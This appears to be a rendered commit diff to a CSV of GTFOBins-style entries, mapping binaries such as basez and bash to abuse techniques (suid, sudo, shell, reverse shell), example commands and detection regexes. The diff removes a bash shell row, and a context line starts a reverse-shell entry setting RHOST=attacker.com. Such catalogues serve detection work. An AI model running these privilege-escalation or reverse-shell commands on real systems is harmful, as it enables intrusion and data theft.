

Before and after one commit to swanpake/LOLBasFormated, a CSV file: gtfobins_regex.csv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in ….

Commit message:
Update gtfobins_regex.csv

```diff
--- a/gtfobins_regex.csv
+++ b/gtfobins_regex.csv
@@ -123,3 +123,2 @@ basez,suid,"./basez ""$LFILE"" | basez --decode",(?i)(?:sudo\s+)?(?:\S*/)?basez\
 basez,sudo,"sudo basez ""$LFILE"" | basez --decode",(?i)(?:sudo\s+)?(?:\S*/)?basez\s+.*)
-bash,shell,bash,(?i)(?:sudo\s+)?(?:\S*/)?bash\s+.*)
 bash,reverse-shell,"export RHOST=attacker.com
```
